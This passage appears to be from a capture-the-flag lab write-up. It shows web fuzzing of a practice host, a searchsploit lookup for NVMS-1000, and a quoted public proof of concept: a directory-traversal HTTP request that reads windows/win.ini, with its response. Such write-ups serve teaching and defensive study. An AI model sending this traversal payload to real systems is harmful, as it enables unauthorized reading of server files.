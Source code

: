 #### Web content fuzzing
We start fuzzing the folders and files without extension:
```shell
❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt --hc 404 --hh 118 -Z "http://10.10.10.184/FUZZ"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.184/FUZZ
Total requests: 4712

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000001757:   200        3 L      42 W       1140 Ch     "favicon.ico"     
000002190:   200        12 L     22 W       338 Ch      "index.htm"
```

We didn't find any interesting content, and as we don't know the domain name, we cannot perform any subdomain enumeration.

#### Manual enumeration
If we access the main page, we can see this login page:
![](img/2022-06-16-22-51-00.png)
This is the second mention to `nvms-1000`, so let's enmerate its vulnerabilities:
```shell
❯ searchsploit nvms 1000
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                  | hardware/webapps/47774.txt
TVT NVMS 1000 - Directory Traversal              | hardware/webapps/48311.py
------------------------------------------------- ---------------------------------
```
We discover a `Directory Traversal` vulnerability, let's read the `.txt` and try to exploit it manually:
```s
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan T<C3><BC>rle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------

GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
```